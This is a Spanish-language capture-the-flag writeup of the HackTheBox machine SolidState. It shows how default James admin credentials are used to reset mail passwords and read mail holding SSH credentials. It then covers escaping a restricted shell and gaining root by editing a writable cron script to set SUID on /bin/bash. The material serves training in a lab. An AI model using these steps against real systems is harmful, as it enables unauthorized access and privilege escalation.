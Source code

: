 ```yaml
---
title: "HackTheBox - SolidState"
layout: post
date: 2022-05-26 18:03
image: /assets/images/SolidState/snake_logo.jpg
headerImage: true
tag:
- htb
- hacking
- writeup
category: blog
description: Writeup de SolidState
---
```


# SolidState

Dificultad: Medium
OS: Linux

# HackTheBox - SolidState

En este writeup, voy a demostrar paso a paso como conseguir el root en la máquina SolidState.

Es una máquina Linux con una dificultad media.

## Reconocimiento

Primero, aunque aparezca en el icono, es una buena práctica ver qué OS utiliza el objetivo. Para ello utilizaremos el comando `ping -c 1 {IP}` y viendo la ttl podemos saber contra qué nos enfrentamos de manera silenciosa (Linux:64 y Windows:128). En este vemos que es una máquina Linux.

![Untitled](../assets/images/SolidState/Untitled.png)

Nmap encuenta 6 puertos abiertos siendo estos el 22, 25, 80, 110, 119, 4555.

![Untitled](../assets/images/SolidState/Untitled%201.png)

Haciendo un escaneo de versiones sobre estos puertos encontramos que utiliza James 2.3.2, lo que más llama la atención es el puerto 4555, James Remote Administration Tool 2.3.2

![Untitled](../assets/images/SolidState/Untitled%202.png)

Buscando exploits encontramos un RCE, y en el código encontramos que los credenciales por defecto son root:root

![Untitled](../assets/images/SolidState/Untitled%203.png)

Y al intentar conectar vemos que las credenciales por defecto funcionan. Con help sacamos los comandos que nos deja ejecutar, siendo listusers y setpassword en las que nos centraremos.

![Untitled](../assets/images/SolidState/Untitled%204.png)

![Untitled](../assets/images/SolidState/Untitled%205.png)

Primero vamos a probar con el usuario de james.

```
setpassword james password
Password for james reset
```

Entramos y no tiene ningún correo, asi que procedemos a ir uno a uno mirando si algún usuario tiene correos.

![Untitled](../assets/images/SolidState/Untitled%206.png)

Rápidamente encontramos que john tiene un correo pidiendo que restrinja al usuario mindy y que la envíe un correo con una contraseña temporal

```text
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

En el correo de mindy encontramos el mensaje con el usuario y contraseña y ahora podemos acceder por ssh a la cuenta de mindy.

```text
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@ SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

![Untitled](../assets/images/SolidState/Untitled%207.png)

Nos encontramos que nos da una rbash (restricted shell) y solo podemos usar cat, env y ls. Al tener cat ya podemos leer flag.txt y tener el user.

![Untitled](../assets/images/SolidState/Untitled%208.png)

## Escalada de privilegios

No es problema tener una rbash ya que es muy fácil hacer bypass de la rbash, ya que cuando entramos en el ssh podemos especificar un comando, por lo que usando el parámetro -t y bash entramos en una bash.

![Untitled](../assets/images/SolidState/Untitled%209.png)

Para encontrar qué procesos se ejecutan a la larga, voy usar el comando `ps -eo command` que te saca todos los comandos que se van ejecutando y así compararlo con uno nuevo para ver que se ejecuta a la larga.

```bash
#!/bin/bash

last_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$last_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
        last_process=$(ps -eo command)
done
```

Encontramos que cada x tiempo se ejecuta [tmp.py](http:/tmp.py) que está en /opt asi que vamos a mirarlo.

![Untitled](../assets/images/SolidState/Untitled%2010.png)

Encontramos que pertenece al root y que puedo escribir en el, asi que ahora lo tenemos fácil.

![Untitled](../assets/images/SolidState/Untitled%2011.png)

![Untitled](../assets/images/SolidState/Untitled%2012.png)

Modifico el .py para otorgar privilegios SUID a la bash. Los privilegios SUID dan privilegios de ejecución del propietario, en este caso root.

```python
#!/usr/bin/env python

import os

os.system("chmod u+s /bin/bash")
```

Aquí se puede ver como se asigna ese bit s, por lo que ya tengo SUID.

![Untitled](../assets/images/SolidState/Untitled%2013.png)

Y ahora abriendo otra bash, tenemos privilegios de root y ende, la flag.

![Untitled](../assets/images/SolidState/Untitled%2014.png)